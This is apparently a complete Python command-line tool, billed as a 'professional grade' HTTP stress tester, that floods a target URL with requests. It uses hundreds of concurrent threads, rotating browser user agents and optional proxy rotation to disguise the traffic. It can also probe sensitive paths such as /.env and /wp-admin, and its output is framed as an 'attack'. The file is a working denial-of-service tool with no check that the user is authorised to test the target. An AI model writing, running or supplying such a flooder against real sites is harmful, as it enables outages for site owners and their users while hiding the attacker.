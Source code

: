 import argparse
import random
import sys
import threading
import time
from dataclasses import dataclass
from enum import Enum
from typing import Dict, List, Optional, Union

import requests

# ===== Configurações Globais ===== #
DEFAULT_TIMEOUT = 10
MAX_RETRIES = 3
THREAD_SEMAPHORE = threading.Semaphore(500)  # Limite de threads concorrentes

# ===== Tipos e Estruturas ===== #
class HTTPMethod(Enum):
    GET = "GET"
    POST = "POST"
    PUT = "PUT"
    DELETE = "DELETE"
    HEAD = "HEAD"

@dataclass
class AttackStats:
    total_requests: int = 0
    success: int = 0
    errors: int = 0
    start_time: float = time.time()

# ===== Dados Aleatórios ===== #
USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "Mozilla/5.0 (X11; Linux x86_64)",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_0 like Mac OS X)",
    "Mozilla/5.0 (Linux; Android 11; SM-G975F)",
]

FAKE_PATHS = [
    "/api/v1/users",
    "/wp-admin",
    "/admin/login",
    "/.env",
    "/config.json",
]

# ===== Classe Principal ===== #
class HTTPStressTester:
    def __init__(self):
        self.stop_attack = False
        self.stats = AttackStats()
        self.lock = threading.Lock()

    def random_headers(self) -> Dict[str, str]:
        return {
            "User-Agent": random.choice(USER_AGENTS),
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
            "Accept-Language": "en-US,en;q=0.5",
            "Connection": "keep-alive",
        }

    def send_request(
        self,
        url: str,
        method: HTTPMethod = HTTPMethod.GET,
        headers: Optional[Dict[str, str]] = None,
        proxy: Optional[str] = None,
    ) -> None:
        with THREAD_SEMAPHORE:
            if self.stop_attack:
                return

            session = requests.Session()
            req_headers = headers or self.random_headers()
            proxies = {"http": proxy, "https": proxy} if proxy else None

            for _ in range(MAX_RETRIES):
                try:
                    response = session.request(
                        method.value,
                        url,
                        headers=req_headers,
                        timeout=DEFAULT_TIMEOUT,
                        proxies=proxies,
                    )
                    with self.lock:
                        self.stats.total_requests += 1
                        self.stats.success += 1
                    print(
                        f"[+] {method.value} {url} | Status: {response.status_code} | "
                        f"Size: {len(response.content)} bytes"
                    )
                    break
                except Exception as e:
                    with self.lock:
                        self.stats.total_requests += 1
                        self.stats.errors += 1
                    print(f"[-] Error: {str(e)}")
                    time.sleep(1)

    def start_attack(
        self,
        url: str,
        method: HTTPMethod = HTTPMethod.GET,
        threads: int = 50,
        rps: Optional[int] = None,
        use_random_paths: bool = False,
        use_proxy: bool = False,
        proxies: Optional[List[str]] = None,
    ) -> None:
        print(f"\n[!] Starting attack on {url} ({method.value})")
        print(f"[*] Threads: {threads} | RPS: {rps or 'MAX'} | Random paths: {use_random_paths}")

        try:
            while not self.stop_attack:
                target_url = (
                    f"{url.rstrip('/')}{random.choice(FAKE_PATHS)}" 
                    if use_random_paths 
                    else url
                )
                proxy = random.choice(proxies) if use_proxy and proxies else None

                thread = threading.Thread(
                    target=self.send_request,
                    args=(target_url, method),
                    kwargs={"proxy": proxy},
                )
                thread.daemon = True
                thread.start()

                if rps:
                    time.sleep(1 / rps)

        except KeyboardInterrupt:
            self.stop_attack = True
            print("\n[!] Stopping attack...")
            while threading.active_count() > 1:
                time.sleep(0.5)
            self.print_stats()

    def print_stats(self) -> None:
        duration = time.time() - self.stats.start_time
        rps = self.stats.total_requests / duration if duration > 0 else 0
        print(
            f"\n=== Attack Report ===\n"
            f"Total Requests: {self.stats.total_requests}\n"
            f"Success: {self.stats.success}\n"
            f"Errors: {self.stats.errors}\n"
            f"Duration: {duration:.2f}s\n"
            f"Requests/s: {rps:.2f}\n"
        )

# ===== CLI Setup ===== #
def main():
    parser = argparse.ArgumentParser(description="HTTP Stress Tester (Professional Grade)")
    subparsers = parser.add_subparsers(dest="command")

    # Attack Command
    attack_parser = subparsers.add_parser("attack", help="Start HTTP stress test")
    attack_parser.add_argument("-u", "--url", required=True, help="Target URL")
    attack_parser.add_argument("-m", "--method", default="GET", 
                             choices=[m.value for m in HTTPMethod],
                             help="HTTP method")
    attack_parser.add_argument("-t", "--threads", type=int, default=50,
                             help="Number of threads")
    attack_parser.add_argument("--rps", type=int, help="Requests per second limit")
    attack_parser.add_argument("--random-paths", action="store_true",
                             help="Use random paths in requests")
    attack_parser.add_argument("--proxies", nargs="+", help="List of proxies (HTTP/SOCKS5)")

    args = parser.parse_args()

    if not args.command:
        parser.print_help()
        sys.exit(1)

    tester = HTTPStressTester()
    try:
        if args.command == "attack":
            tester.start_attack(
                url=args.url,
                method=HTTPMethod(args.method),
                threads=args.threads,
                rps=args.rps,
                use_random_paths=args.random_paths,
                use_proxy=bool(args.proxies),
                proxies=args.proxies,
            )
    except KeyboardInterrupt:
        tester.stop_attack = True
        sys.exit(0)

if __name__ == "__main__":
    main()
